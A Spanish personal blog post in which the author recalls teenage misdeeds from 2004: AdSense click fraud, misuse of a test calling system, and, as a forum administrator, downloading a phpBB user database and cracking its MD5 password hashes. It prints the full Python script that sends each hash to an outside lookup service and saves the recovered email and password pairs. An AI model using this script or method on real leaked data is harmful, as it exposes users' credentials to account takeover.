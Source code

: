 ```yaml
---
layout: post
title: Ensuciándome las manos en 2004
categories: [programming]
published: True
featured: true
date: 2012-09-17
category: Personal
markdown: markdown
image: /images/uploads/posts/hands-dirty/security_cameras.jpg
excerpt: En 2004, entre clases de instituto y partidas de Age of Empires, me topé con una base de datos de 20.000 usuarios con contraseñas MD5.
---
```

Si soy curioso ahora, lo era mucho más con 14 o 15 años. En aquella época me defendía bien con PHP, hacía mis pinitos con C, y empezaba a trastear con Python. La mitad del día lo pasaba en canales de IRC-Hispano, mayormente en canales de programación (#php_para_torpes, #python, etc) y Age of Empires (#aoc, #the_conquerors). Pasaba muchas horas y era muy activo, por lo que con los años acabé haciendo mi pequeña comunidad de ciber-amigos. Algunos de ellos programaban y montaban o gestionaban páginas o proyectos conocidos ([PHP_Hispano](http://www.php-hispano.net/) entre otros). 

Un día, me invitaron a *selecto* grupo privado donde se organizaban para aprovecharse de fallas del sistema de publicidad de Google: Adsense. Todos éramos bloggers (o webloggers por aquella época) y teníamos anuncios en nuestras páginas, y estos cafres habían montado un sistema semi-automático para pincharnos en las publicidades de unos a otros todos los días de una forma que aún Google no era capaz de filtrar. Cada día, mis anuncios recibían 12 clicks. Y así estuvimos 2 años. Al cabo de unos meses con el dinero conseguido, jubilé mi [Pentium 3 866Mhz](http://www.cpu-world.com/CPUs/Pentium-III/Intel-Pentium%20III%20866%20-%20RB80526PZ866256%20(BX80526C866256%20-%20BX80526C866256E).html) y 64Mb de RAM por un [AMD Athlon 3400+](http://www.cpu-world.com/CPUs/K8/AMD-Athlon%2064%203400+%20-%20ADA3400DAA4BZ.html) con 1Gb y en una caja chulísima, con luces de colores. Era 2004 y había ganado mis primeros 1.000€. 

También en aquel entonces, un chalado de este grupo que trabajaba para Motorola nos dió acceso ilimitado a un software interno en estado de pruebas con el que podíamos hacer llamadas a todo el mundo de forma gratuita. Obviamente lo usamos con fines maléficos y acabamos asustando mucho a la madre de un compañero puertoriqueño de #php_para_torpes. 

Total, que uno de estos contactos era un tío que había montado la primera plataforma de música en streaming de España, y lo estaba petando mucho. Solo en el primer par de meses había conseguido más de 20.000 usuarios registrados y no paraba de ampliar servidores para aguantar la carga de tráfico. Tenía un foro [phpBB](https://www.phpbb.com/) que iba a toda pastilla y necesitaba que alguien se lo gestionara: aquí entro yo. De repente, era administrador de una de las páginas del momento en España. Lo estaba flipando un poco trasteando por el panel de administración cuando me encontré con la gestión de Backups. No me pude aguantar... y descargué el backup de la base de datos. 

Estaba un poco asustado. Quería husmear, pero me daba cosilla. Pensé que si abría los ficheros .sql con notepad era menos malo que si hacía todo el esfuerzo de montarme una base de datos local y cargar el dump: eso ya sería premeditado, oye. Cuando abrí el dump de 20Mb con `gedit` me petó el ordenador. Ni Athlon 3400+ ni hostias. Tuve que abrirlo con `nano` para encontrarme, entre otras cosas, 20.000 lineas como esta: 

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}
![](/images/uploads/posts/hands-dirty/kid_surprised.jpeg){:class="img-right"}

20.000 usuarios con sus direcciones de correos y sus contraseñas en MD5. No recuerdo si en 2005 aún alguien confiaba en MD5, pero os aseguro que no era para nada la mejor forma de guardar contraseñas. A parte del famoso [John The Ripper](https://www.openwall.com/john/), existían páginas como [GDataOnline](https://web.archive.org/web/20060718024011/http://gdataonline.com/) (ya difunta) que contenían millones de hashs MD5 y sus correspondientes orígenes ([Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)). Básicamente, tu buscabas un hash y te devolvía (si lo conocía) el texto original. Además, la página tenía *una especie de API rudimentaria* que devolvía XML. 

Como me estaba calentando, escribí un script que leía el fichero .sql y encontraba el email y contraseña encriptado de cada usuario usando expresiones regulares. A lo bestia. La cosa se fue (la fui) moviendo y obviamente acabé mandando peticiones a GDataOnline para traerme contraseñas limpitas. 

Cada paso que daba me daba un poco más de miedo y más me imaginaba a la policía pegando en la puerta. 

Al cabo de unas horas, acabé con esto:

{% highlight python %}
#!/usr/bin/env python
# -*- coding: iso-8859-15 -*-
import re
import urllib
import os

def getPasswords():
  successful_passwords = 0
  num = 1

  file = r"inputFile001" #Change this for every file
  text = open(file, "r")
  content = text.read()
  text.close()
  user = re.findall("VALUES.*?;", content)

  output_file = r"outputFile001" #Change this for every file
  foo = open(output_file, "w")

  spaces = " "*32
  foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
  foo.write('-' * 90 + "\r")

  for i in user:
    nickname = i.split()[2].strip(",").strip("'")
    mail = i.split()[39].strip(",").strip("'")

    f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" 
                          % i.split()[3].strip(",").strip("'"))
    xml = f.read()
    passwords = re.findall(".*?", xml)

    if passwords: # If we get the original
     password = passwords[0].split("").pop().split("")[0]
     successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

    os.system("clear")
    print "Total: %i" % len(user)
    print "Analized: %i" % num
    print "Found: %i" % successful_passwords

    num += 1

  foo.close()
  print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Una delicia de código apoyado en todas las buenas prácticas de [Code Complete](https://www.amazon.com/Code-Complete-Practical-Handbook-Construction/dp/0735619670). Un orgullo. ¡Y lo mejor es que funcionaba! El código leía cada fichero de dump y, usando una expresión regular, identificaba todos usuarios. Luego iteraba sobre ellos, extraía el campo donde se encontraba la contraseña encriptada y la mandaba a GDataOnline. Si GDataOnline conocía la contraseña, me la devolvía y yo la escribía en un fichero junto con el username y el email: 

|**Nickname**|**Password**|**Mail**|
|juan|mipassword|juanito_perez@hotmail.com|
|miguel|12341234|the_big_boy@yahoo.com|
|admin|this_is_my_admin_password|admin@thissite.com|
|....|....|....|

Había conseguido el 30% de las contraseñas en texto plano... 6.000 pares de (email, contraseña) en una época en la que la gente ni siquiera sabía que era [2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication). La probabilidad de que esos credenciales dieran acceso a correos electrónicos, redes sociales o cuentas bancarias era bastante altas. 

Al cabo de unos días de no poder dormir tranquilo, borré los dumps y el fichero final, pero guardé el script (*obra de arte*) hasta hoy. Durante años mantuve el secreto oculto y nunca lo comenté a nadie: a fin de cuentas, muchos de mis amigos estaban registrados en esa web y muy probablmente había descubierto sus contraseñas. 

Ahora ya lo sabeis. 